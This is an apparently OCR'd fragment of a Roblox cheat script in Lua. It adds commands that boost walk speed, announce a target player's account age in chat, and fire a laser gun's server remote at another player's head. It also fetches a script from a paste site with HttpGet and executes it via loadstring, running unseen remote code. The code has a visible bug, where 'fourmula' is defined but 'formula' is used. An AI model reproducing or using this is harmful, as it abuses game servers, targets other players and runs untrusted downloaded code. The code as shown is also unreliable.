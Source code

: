 humanoid.WalkSpeed = 45

end)


chat = function(Msg)
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(Msg,"All")
end

CreateCMD("age",function()
chat(game:GetService("Players")[Player.Value].DisplayName.."'s Account age is: "..game:GetService("Players")[Player.Value].AccountAge)
end)



CreateCMD("lray",function()
-- Red Hyper Laser Gun
game:GetService("Players").LocalPlayer.Character:WaitForChild("Hyperlasergun",0.1):WaitForChild("ServerControl",0.1):InvokeServer("Click",true,game:GetService("Players")[Player.Value].Character.Head.Position)
end)

--// AutomaticBlox
local scripts = {
	["Erased Admin"] = game:HttpGet("https://paste.website/p/7d6deca7-b380-4bc0-98cb-46695e073fba.txt"),
}

for i,v in pairs(scripts) do
	CreateScript(i,function()
	loadstring(v)() -- not made by kosovo this time
	end)
end

--// Initalizing
count = 0
for i,v in pairs(ScrollingFrame:GetChildren()) do
if v:IsA("TextButton") then
count = count + 1
end
end
fourmula = math.floor(count / 3) - 7.5
ScrollingFrame.CanvasSize = UDim2.new(0,0,formula,0)
